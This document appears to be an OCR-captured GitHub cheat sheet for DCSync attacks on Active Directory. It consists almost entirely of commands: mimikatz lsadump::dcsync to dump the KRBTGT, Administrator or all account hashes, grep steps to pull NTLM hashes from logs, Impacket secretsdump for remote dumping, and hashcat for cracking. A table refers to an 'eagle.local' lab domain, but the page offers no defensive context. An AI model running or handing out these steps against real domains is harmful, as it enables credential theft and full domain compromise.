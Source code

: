 # Credentials to look for:

### 1) Local admin rights on several machines

### 2) Service accounts that have delegate permissions

### 3) Accounts used for privileged AD Services (SCCM,WSUS,Exchange,etc.)

#### 1) 

    mimikatz

#### 2) 

    lsadump::dcsync /domain:DOMAIN /user:OUR_LOW-PRIVILEGE_AD_USERNAME

### Privileges: Replicate Directory Changes, Replicate Directory Changes All, Replicated Directory Changes in Filtered Set

### Usually, Administrators, Domain Admins and Enterprise Admins have this privilege in their accounts.

#### 1) 

    mimikatz.exe

#### 2) 

    privilege::debug

#### 3) 

    lsadump::dcsync /user:KRBTGT_ACCOUNT

# DCSync every single account

#### 1) 

    mimikatz

#### 2) 

    log USERNAME_dcdump.txt

#### 3) 

    lsadump::dcsync /domain:DOMAIN /all

#### 4) 

    exit

#### 5) Download file

#### 6) 

    cat FILE.txt | grep "SAM Username"

#### 7) 

    cat FILE.txt | grep "Hash NTLM"

#### 8) Offline password cracking / Pass-theHash (Mimikatz)

# DCSync Remote

### Secretsdump.py on an account that is synced with the domain controller to dump hashes to PtH attack.

#### 1) 

    python3 Impacket-Secretsdump.py -just-dc DOMAIN/AD_ADMIN_USER@DC_IP

#### 2) 

    python3 Impacket-Secretsdump.py -just-dc-ntlm DOMAIN/AD_ADMIN_USER@DC_IP

#### 3) 

    hashcat -m 1000 -a 0 hashes.txt /path/to/wordlist.txt

# DCSync

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `runas /user:eagle\rocky cmd.exe`                            | Start a new instance of `cmd.exe` as the user `eagle\rocky`.
| `mimikatz.exe`                                               | Tool used to implement the DCsync attack |
| `lsadump::dcsync /domain:eagle.local /user:Administrator`    | Command used in `mimikatz` to DCSync and dump the `Administrator` password hash |
